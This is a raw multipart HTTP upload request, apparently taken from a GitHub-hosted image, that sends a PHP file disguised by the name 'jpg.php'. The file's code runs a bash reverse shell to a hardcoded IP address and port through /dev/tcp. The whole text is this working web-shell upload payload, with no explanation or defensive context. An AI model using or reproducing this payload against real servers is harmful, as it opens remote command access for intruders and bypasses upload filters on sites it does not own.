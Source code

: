 ------WebKitFormBoundaryKn962tU5ngK9RjBV
Content-Disposition: form-data; name="file"; filename="jpg.php"
Content-Type: application/x-php

<?php
$ip = '10.21.166.215';  
$port = 5555;  
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
?>


------WebKitFormBoundaryKn962tU5ngK9RjBV--

